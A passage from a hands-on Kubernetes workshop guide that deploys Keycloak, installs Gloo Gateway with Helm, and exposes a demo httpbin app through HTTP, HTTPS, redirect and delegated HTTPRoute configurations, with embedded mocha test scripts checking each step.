          "notBefore": 0,
          "groups": []
        }
      ],
      "clients": [
        {
          "clientId": "gloo-portal-idp",
          "enabled": true,
          "name": "Solo.io Gloo Portal Resource Server",
          "clientAuthenticatorType": "client-secret",
          "secret": "gloo-portal-idp-secret",
          "serviceAccountsEnabled": true,
          "authorizationServicesEnabled": true,
          "authorizationSettings": {
            "allowRemoteResourceManagement": true,
            "policyEnforcementMode": "ENFORCING",
            "resources": [
              {
                "name": "Default Resource",
                "type": "urn:gloo-portal-idp:resources:default",
                "ownerManagedAccess": false,
                "attributes": {},
                "uris": [
                  "/*"
                ]
              }
            ],
            "policies": [
              {
                "name": "Default Policy",
                "description": "A policy that grants access only for users within this realm",
                "type": "regex",
                "logic": "POSITIVE",
                "decisionStrategy": "AFFIRMATIVE",
                "config": {
                  "targetContextAttributes" : "false",
                  "pattern" : ".*",
                  "targetClaim" : "sub"
                }
              },
              {
                "name": "Default Permission",
                "description": "A permission that applies to the default resource type",
                "type": "resource",
                "logic": "POSITIVE",
                "decisionStrategy": "UNANIMOUS",
                "config": {
                  "defaultResourceType": "urn:gloo-portal-idp:resources:default",
                  "applyPolicies": "[\"Default Policy\"]"
                }
              }
            ],
            "scopes": [],
            "decisionStrategy": "UNANIMOUS"
          }
        }
      ]
    }
kind: ConfigMap
metadata:
  name: realms
  namespace: keycloak
EOF
```

Now let's install Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Service
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  ports:
  - name: http
    port: 8080
    targetPort: 8080
  selector:
    app: keycloak
  type: LoadBalancer
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: keycloak
  namespace: keycloak
  labels:
    app: keycloak
spec:
  replicas: 1
  selector:
    matchLabels:
      app: keycloak
  template:
    metadata:
      labels:
        app: keycloak
    spec:
      containers:
      - name: keycloak
        image: quay.io/keycloak/keycloak:25.0.5
        args:
        - start-dev
        - --import-realm
        - --proxy-headers=xforwarded
        - --features=hostname:v1
        - --hostname-strict=false
        - --hostname-strict-https=false
        env:
        - name: KEYCLOAK_ADMIN
          value: admin
        - name: KEYCLOAK_ADMIN_PASSWORD
          value: admin
        - name: KC_DB
          value: postgres
        - name: KC_DB_URL
          value: jdbc:postgresql://postgres.gloo-system.svc.cluster.local:5432/keycloak
        - name: KC_DB_USERNAME
          value: keycloak
        - name: KC_DB_PASSWORD
          value: password
        ports:
        - name: http
          containerPort: 8080
        readinessProbe:
          httpGet:
            path: /realms/workshop
            port: 8080
        volumeMounts:
        - name: realms
          mountPath: /opt/keycloak/data/import
      volumes:
      - name: realms
        configMap:
          name: realms
EOF
```

Wait while Keycloak finishes rolling out:

```bash
kubectl --context ${CLUSTER1} -n keycloak rollout status deploy/keycloak
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Keycloak", () => {
  it('keycloak pods are ready in cluster1', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "keycloak", k8sObj: "keycloak" }));
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/pods-available.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("Retrieve enterprise-networking ip", () => {
  it("A value for load-balancing has been assigned", () => {
    let cli = chaiExec(`kubectl --context ${process.env.CLUSTER1} -n keycloak get svc keycloak -o jsonpath='{.status.loadBalancer}'`);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('"ingress"');
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-keycloak/tests/keycloak-ip-is-attached.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
timeout 2m bash -c "until [[ \$(kubectl --context ${CLUSTER1} -n keycloak get svc keycloak -o json | jq '.status.loadBalancer | length') -gt 0 ]]; do
  sleep 1
done"
-->

Let's set the environment variables we need:

```bash
export ENDPOINT_KEYCLOAK=$(kubectl --context ${CLUSTER1} -n keycloak get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):8080
export HOST_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK%:*})
export PORT_KEYCLOAK=$(echo ${ENDPOINT_KEYCLOAK##*:})
export KEYCLOAK_URL=http://${ENDPOINT_KEYCLOAK}
```

<!--bash
cat <<'EOF' > ./test.js
const dns = require('dns');
const chaiHttp = require("chai-http");
const chai = require("chai");
const expect = chai.expect;
chai.use(chaiHttp);
const { waitOnFailedTest } = require('./tests/utils');

afterEach(function(done) { waitOnFailedTest(done, this.currentTest.currentRetry())});

describe("Address '" + process.env.HOST_KEYCLOAK + "' can be resolved in DNS", () => {
    it(process.env.HOST_KEYCLOAK + ' can be resolved', (done) => {
        return dns.lookup(process.env.HOST_KEYCLOAK, (err, address, family) => {
            expect(address).to.be.an.ip;
            done();
        });
    });
});
EOF
echo "executing test ./gloo-mesh-2-0/tests/can-resolve.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->
<!--bash
echo "Waiting for Keycloak to be ready at $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token"
timeout 300 bash -c 'while [[ "$(curl -m 2 -s -o /dev/null -w ''%{http_code}'' $KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token)" != "405" ]]; do printf '.';sleep 1; done' || false
-->


## Lab 20 - Deploy Gloo Gateway <a name="lab-20---deploy-gloo-gateway-"></a>

You can deploy Gloo Gateway with the `glooctl` CLI or declaratively using Helm.

We're going to use the Helm option.

Install the Kubernetes Gateway API CRDs as they do not come installed by default on most Kubernetes clusters.

```bash
kubectl --context $CLUSTER1 apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.1.0/standard-install.yaml
```


Next, install Gloo Gateway. This command installs the Gloo Gateway control plane into the namespace `gloo-system`.

```bash
helm repo add gloo-ee-helm https://storage.googleapis.com/gloo-ee-helm

helm repo update

helm upgrade -i -n gloo-system \
  gloo-gateway gloo-ee-helm/gloo-ee \
  --create-namespace \
  --version 1.17.3 \
  --kube-context $CLUSTER1 \
  --set-string license_key=$LICENSE_KEY \
  -f -<<EOF
gloo:
  kubeGateway:
    enabled: true
    gatewayParameters:
      glooGateway:
        istio:
          istioProxyContainer:
            istioDiscoveryAddress: istiod-1-23.istio-system.svc:15012
            istioMetaClusterId: cluster1
            istioMetaMeshId: mesh1
  gatewayProxies:
    gatewayProxy:
      disabled: true
  gateway:
    validation:
      allowWarnings: true
      alwaysAcceptResources: false
  gloo:
    logLevel: info
    deployment:
      customEnv:
        - name: GG_PORTAL_PLUGIN
          value: "true"
      livenessProbeEnabled: true
  discovery:
    enabled: false
  rbac:
    namespaced: true
    nameSuffix: gg-demo
observability:
  enabled: false
prometheus:
  enabled: false
grafana:
  defaultInstallationEnabled: false
gloo-fed:
  enabled: false
  glooFedApiserver:
    enable: false
gateway-portal-web-server:
  enabled: true
settings:
  disableKubernetesDestinations: true
global:
  extensions:
    caching:
      enabled: true
  istioSDS:
    enabled: true
  istioIntegration:
    enabled: true
    enableAutoMtls: true
EOF
```


Run the following command to check that the Gloo Gateway pods are running:

<!--bash
echo -n Waiting for Gloo Gateway pods to be ready...
kubectl --context $CLUSTER1 -n gloo-system rollout status deployment
-->
```bash
kubectl --context $CLUSTER1 -n gloo-system get pods
```

Here is the expected output:

```,nocopy
NAME                                         READY   STATUS      RESTARTS   AGE
caching-service-79cf55ccbb-dcvgp             1/1     Running     0          69s
extauth-58f68c5cd5-gxgxc                     1/1     Running     0          69s
gateway-portal-web-server-5c5d58d8d5-7lzwg   1/1     Running     0          69s
gloo-7d8994697-lfg5x                         1/1     Running     0          69s
gloo-resource-rollout-check-x8b77            0/1     Completed   0          69s
gloo-resource-rollout-cjtgh                  0/1     Completed   0          69s
rate-limit-6db9c67794-vf7h2                  1/1     Running     0          69s
redis-6c7c489d8c-g2dhc                       1/1     Running     0          69s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Gloo Gateway", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["gloo", "extauth", "rate-limit", "redis"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "gloo-system", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/deploy-gloo-gateway-enterprise/tests/check-gloo.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 21 - Deploy the httpbin demo app <a name="lab-21---deploy-the-httpbin-demo-app-"></a>

We're going to deploy the httpbin application to demonstrate several features of Gloo Gateway.

You can find more information about this application [here](http://httpbin.org/).

Run the following commands to deploy the httpbin app twice (`httpbin1` and `httpbin2`).

```bash
kubectl --context ${CLUSTER1} create ns httpbin
kubectl --context ${CLUSTER1} label namespace httpbin istio-injection=enabled
kubectl --context ${CLUSTER1} label namespace httpbin istio.io/rev=1-23
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin1
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin1
  namespace: httpbin
  labels:
    app: httpbin1
    service: httpbin1
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin1
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin1
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin1
      version: v1
  template:
    metadata:
      labels:
        app: httpbin1
        version: v1
    spec:
      serviceAccountName: httpbin1
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        resources:
          limits:
            cpu: 1
            memory: 512Mi
          requests:
            cpu: 100m
            memory: 256Mi
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF

kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: httpbin2
  namespace: httpbin
---
apiVersion: v1
kind: Service
metadata:
  name: httpbin2
  namespace: httpbin
  labels:
    app: httpbin2
    service: httpbin2
spec:
  ports:
  - name: http
    port: 8000
    targetPort: http
    protocol: TCP
    appProtocol: http
  selector:
    app: httpbin2
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: httpbin2
  namespace: httpbin
spec:
  replicas: 1
  selector:
    matchLabels:
      app: httpbin2
      version: v1
  template:
    metadata:
      labels:
        app: httpbin2
        version: v1
    spec:
      serviceAccountName: httpbin2
      containers:
      - name: httpbin
        image: mccutchen/go-httpbin:v2.14.0
        command: [ go-httpbin ]
        args:
          - "-max-duration"
          - "600s" # override default 10s
          - -use-real-hostname
        ports:
          - name: http
            containerPort: 8080
            protocol: TCP
        livenessProbe:
          httpGet:
            path: /status/200
            port: http
        readinessProbe:
          httpGet:
            path: /status/200
            port: http
        resources:
          limits:
            cpu: 1
            memory: 512Mi
          requests:
            cpu: 100m
            memory: 256Mi
        env:
        - name: K8S_MEM_LIMIT
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.memory
        - name: GOMAXPROCS
          valueFrom:
            resourceFieldRef:
              divisor: "1"
              resource: limits.cpu
EOF
```

You can follow the progress using the following command:

<!--bash
echo -n Waiting for httpbin pods to be ready...
kubectl --context ${CLUSTER1} -n httpbin rollout status deployment
-->
```shell
kubectl --context ${CLUSTER1} -n httpbin get pods
```

Here is the expected output when both Pods are ready:

```,nocopy
NAME                        READY   STATUS    RESTARTS   AGE
httpbin1-7fdbf6498-ms7qt    1/1     Running   0          94s
httpbin2-655777b846-6nrms   1/1     Running   0          93s
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("httpbin app", () => {
  let cluster = process.env.CLUSTER1
  let deployments = ["httpbin1", "httpbin2"];
  deployments.forEach(deploy => {
    it(deploy + ' pods are ready in ' + cluster, () => helpers.checkDeployment({ context: cluster, namespace: "httpbin", k8sObj: deploy }));
  });
});
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/deploy-httpbin/tests/check-httpbin.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 22 - Expose the httpbin application through the gateway <a name="lab-22---expose-the-httpbin-application-through-the-gateway-"></a>


The team in charge of the gateway can create a `Gateway` resource and configure an HTTP listener.


```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

Note that application teams can create and attach their `HTTPRoute` to this gateway.

An application team can create an `HTTPRoute` resource to expose the `httpbin` app on the gateway.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Set the environment variable for the service corresponding to the gateway:

```bash
export PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].*}')
```

<!--bash
RETRY_COUNT=0
MAX_RETRIES=60
while [[ -z "$PROXY_IP" && $RETRY_COUNT -lt $MAX_RETRIES ]]; do
  echo "Waiting for PROXY_IP to be assigned... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  PROXY_IP=$(kubectl --context ${CLUSTER1} -n gloo-system get svc gloo-proxy-http -o jsonpath='{.status.loadBalancer.ingress[0].*}')
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 5
done

# if PROXY_IP is a hostname, resolve it to an IP address
if [[ -n "$PROXY_IP" && $PROXY_IP =~ [a-zA-Z] ]]; then
  while [[ -z "$IP" && $RETRY_COUNT -lt $MAX_RETRIES ]]; do
    echo "Waiting for PROXY_IP to be propagated in DNS... Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
    IP=$(dig +short A "$PROXY_IP" | awk '/^[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+$/ {print; exit}')
    RETRY_COUNT=$((RETRY_COUNT + 1))
    sleep 5
  done
else
  IP="$PROXY_IP"
fi

if [[ -z "$PROXY_IP" ]]; then
  echo "WARNING: Maximum number of retries reached. PROXY_IP could not be assigned."
else
  export PROXY_IP
  export IP
  echo "PROXY_IP has been assigned: $PROXY_IP"
  echo "IP has been resolved to: $IP"
fi
-->

Configure your hosts file to resolve httpbin.example.com with the IP address of the proxy by executing the following command:

```bash
./scripts/register-domain.sh httpbin.example.com ${PROXY_IP}
```

Try to access the application through HTTP:

```shell
curl http://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "http"
    ],
    "X-Request-Id": [
      "d0998a48-7532-4eeb-ab69-23cef22185cf"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:38917",
  "url": "http://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTP", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `http://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/http.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Now, let's secure the access through TLS.
Let's first create a private key and a self-signed certificate:

```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"
```

Then, you have to store it in a Kubernetes secret running the following command:

```bash
kubectl create --context ${CLUSTER1} -n gloo-system secret tls tls-secret --key tls.key \
   --cert tls.crt
```

Update the `Gateway` resource to add HTTPS listeners.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
kind: Gateway
apiVersion: gateway.networking.k8s.io/v1
metadata:
  name: http
  namespace: gloo-system
spec:
  gatewayClassName: gloo-gateway
  listeners:
  - protocol: HTTPS
    port: 443
    name: https-httpbin
    hostname: httpbin.example.com
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTPS
    port: 443
    name: https
    tls:
      mode: Terminate
      certificateRefs:
        - name: tls-secret
          kind: Secret
    allowedRoutes:
      namespaces:
        from: All
  - protocol: HTTP
    port: 80
    name: http
    allowedRoutes:
      namespaces:
        from: All
EOF
```

As you can see, we've added 2 new listeners. One for the `httpbin.example.com` hostname and one for all the other hostnames.

We used the same secret to keep things simple, but the goal is to demonstrate we can have different HTTPS listeners.

Update the `HTTPRoute` resource to expose the `httpbin` app through HTTPS.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Try to access the application through HTTPS:

<!--bash
echo -n Wait for up to 2 minutes until the url is ready...
RETRY_COUNT=0
MAX_RETRIES=30
while [[ $RETRY_COUNT -lt $MAX_RETRIES ]]; do
  echo "Attempt $((RETRY_COUNT + 1))/$MAX_RETRIES"
  ret=`curl -k -s -o /dev/null -w %{http_code} https://httpbin.example.com/get`
  if [ "$ret" -eq "200" ]; then
    break
  else
    echo "Response was: $ret"
    echo "Retrying in 4 seconds..."
  fi
  RETRY_COUNT=$((RETRY_COUNT + 1))
  sleep 4
done
-->

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "8e61c480-6373-4c38-824b-2bfe89e79d0c"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

The team in charge of the gateway can create an `HTTPRoute` to automatically redirect HTTP to HTTPS:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: redirect-http-to-https
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: http
  hostnames:
    - "httpbin.example.com"
  rules:
    - filters:
      - type: RequestRedirect
        requestRedirect:
          scheme: https
EOF
```

Try to access the application through HTTP:

```shell
curl -k http://httpbin.example.com/get -L
```

The `-L` option instructs curl to follow the redirect. Without it, you would get a `302` response with the `location` header set to the HTTPS url.

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "2c7454cb-c2f8-428c-9c3b-f51822475327"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:52655",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("location header correctly set", () => {
  it('Checking text \'location\'', () => helpersHttp.checkHeaders({ host: `http://httpbin.example.com`, path: '/get', expectedHeaders: [{'key': 'location', 'value': `https://httpbin.example.com/get`}]}));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/expose-httpbin/tests/redirect-http-to-https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->


## Lab 23 - Delegate with control <a name="lab-23---delegate-with-control-"></a>

The team in charge of the gateway can create a parent `HTTPRoute` to delegate the routing of a domain or a path prefix (for example) to an application team.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

The team in charge of the httpbin application can now create a child `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the application through HTTPS:

```shell
curl -k https://httpbin.example.com/get
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "11037632-92c8-43c7-b919-7d7c7217c564"
    ]
  },
  "method": "GET",
  "origin": "127.0.0.6:51121",
  "url": "https://httpbin.example.com/get"
}
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking text \'headers\'', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', body: 'headers', match: true }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/https.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

In the previous example, we've used a simple `/` prefix matcher for both the parent and the child `HTTPRoute`.

But we'll often use the delegation capability to delegate a specific path to an application team.

For example, let's say the team in charge of the gateway wants to delegate the `/status` prefix to the team in charge of the httpbin application.

Let's update the parent `HTTPRoute`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: gloo-system
spec:
  parentRefs:
    - name: http
      namespace: gloo-system
      sectionName: https-httpbin
  hostnames:
    - "httpbin.example.com"
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: '*'
          namespace: httpbin
          group: gateway.networking.k8s.io
          kind: HTTPRoute
EOF
```

Now, we can update the child `HTTPRoute` to match requests with the `/status/200` path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /status/200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

In the child `HTTPRoute` we've indicated the absolute path (which includes the parent path), but instead we can inherite the parent matcher and use a relative path:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

The team in charge of the httpbin application can also take advantage of the `parentRefs` option to indicate which parent `HTTPRoute` can delegate to its own `HTTPRoute`.

That's why you don't need to use `ReferenceGrant` objects when using delegation.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
  annotations:
    delegation.gateway.solo.io/inherit-parent-matcher: "true"
spec:
  parentRefs:
    - name: httpbin
      namespace: gloo-system
      group: gateway.networking.k8s.io
      kind: HTTPRoute
  rules:
    - matches:
      - path:
          type: Exact
          value: /200
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail || { DEBUG_MODE=true mocha ./test.js --timeout 80000; exit 1; }
-->

Delegation offers another very nice feature. It automatically reorders all the matchers to avoid any short-circuiting.

Let's add a second child `HTTPRoute` which is matching for any request starting with the path `/status`, but sends the requests to the second httpbin service.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin-status
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /status
      backendRefs:
        - name: httpbin2
          port: 8000
EOF
```

If the matcher for `/status` is positioned before the matcher for `/status/200`, the latter would be ignored. So, all the requests would be sent to the second httpbin service.

Check you can still access the `/status/200` path:

```shell
curl -k https://httpbin.example.com/status/200 -w "%{http_code}"
```

Here is the expected output:

```,nocopy
200
```

You can use the following command to validate the request has still been handled by the first httpbin application.

```bash
kubectl logs --context ${CLUSTER1} -n httpbin -l app=httpbin1 | grep curl | grep 200
```

You should get an output similar to:

```log,nocopy
time="2024-07-22T16:02:51.9508" status=200 method="GET" uri="/status/200" size_bytes=0 duration_ms=0.03 user_agent="curl/7.81.0" client_ip=10.101.0.13:58114
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("httpbin through HTTPS", () => {
  it('Checking \'200\' status code', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/status/200', retCode: 200 }));
})
EOF
echo "executing test dist/gloo-gateway-workshop/build/templates/steps/apps/httpbin/delegation/tests/status-200.test.js.liquid"
